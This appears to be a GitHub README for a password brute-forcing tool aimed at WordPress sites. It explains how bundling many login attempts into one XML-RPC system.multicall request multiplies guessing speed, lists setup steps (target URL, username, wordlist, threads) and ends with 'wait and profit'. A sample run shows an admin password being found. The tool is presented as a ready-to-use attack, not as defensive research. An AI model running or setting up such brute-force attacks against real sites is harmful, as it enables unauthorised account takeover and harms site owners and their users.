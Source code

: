 # Purpose

This tool bruteforces user passwords on Wordpress installations that have XML-RPC enabled (by default, btw) using the `system.multicall()` call which allows encapsulation of multiple methods in one XML-RPC call, thus, giving an opportunity to save on network requests when bruteforcing passwords (amplification). In other words, instead of 1337 requests per 1337 password attempts, this methods allows for 1337 passwords to be tested in one request.

Currently, we have empirically established the maximum number of methods per request which is equal to 1998. Adding methods over this number produces an error on *our* Wordpress installation (YMMV).

# Usage
- `git clone https://github.com/0xBADCA7/wp-xmlrpc-bruteforcer.git`
- `cd wp-xmlrpc-bruteforcer`
- Edit `main.py`:
	-	`WORDPRESS_SERVER` to point to the `xmlrpc.php` file on the remote side
	- `USERNAME` for the username password of which you want to discover
	- `WORDLIST` to point to the dictionary of your choice
	- (optional) `CHUNK_SIZE` to change the number of multicall methods per single network request
	- (optional) `THREADS_NUM` to change the number of threads
- Run as `python3 main.py`
- Wait and profit

# Sample run
```
$ python3 main.py
[+] Started at Sun Nov  8 14:30:55 2015
[i] Thread-2 Total words:  256 Total calls:  1
[i] Thread-3 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  512 Total calls:  2
[i] Thread-2 Total words:  512 Total calls:  2
[i] Thread-3 Total words:  512 Total calls:  2
[i] Thread-1 Total words:  768 Total calls:  3
[i] Thread-2 Total words:  768 Total calls:  3
[i] Thread-3 Total words:  768 Total calls:  3
[i] Thread-1 Total words:  1024 Total calls:  4
[i] Thread-2 Total words:  1024 Total calls:  4
[i] Thread-3 Total words:  1024 Total calls:  4
[i] Thread-1 Total words:  1280 Total calls:  5
[i] Thread-2 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1536 Total calls:  6
[i] Thread-1 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1792 Total calls:  7
[i] Thread-3 Total words:  1792 Total calls:  7
[i] Thread-1 Total words:  1792 Total calls:  7
[i] Thread-2 Total words:  2048 Total calls:  8
[i] Thread-1 Total words:  2048 Total calls:  8
[i] Thread-3 Total words:  2048 Total calls:  8
[i] Thread-2 Total words:  2304 Total calls:  9
[i] Thread-1 Total words:  2304 Total calls:  9
[i] Thread-3 Total words:  2304 Total calls:  9
[i] Thread-2 Total words:  2560 Total calls:  10
[i] Thread-1 Total words:  2560 Total calls:  10
[i] Thread-3 Total words:  2560 Total calls:  10
[i] Thread-2 Total words:  2816 Total calls:  11
[i] Thread-1 Total words:  2816 Total calls:  11
[i] Thread-3 Total words:  2816 Total calls:  11
[i] Thread-2 Total words:  3072 Total calls:  12
[i] Thread-1 Total words:  3072 Total calls:  12
[i] Thread-3 Total words:  3072 Total calls:  12
[i] Thread-2 Total words:  3328 Total calls:  13
[i] Thread-1 Total words:  3328 Total calls:  13
[!] Found a match: "admin:nimda"
[+] Finished at Sun Nov  8 14:32:16 2015
Password found. All done. Bye
```

# License
Licensed under GPLv3, see [gpl-3.0.txt](/wp-xmlrpc-bruteforcer/blob/master/main.py) for details.


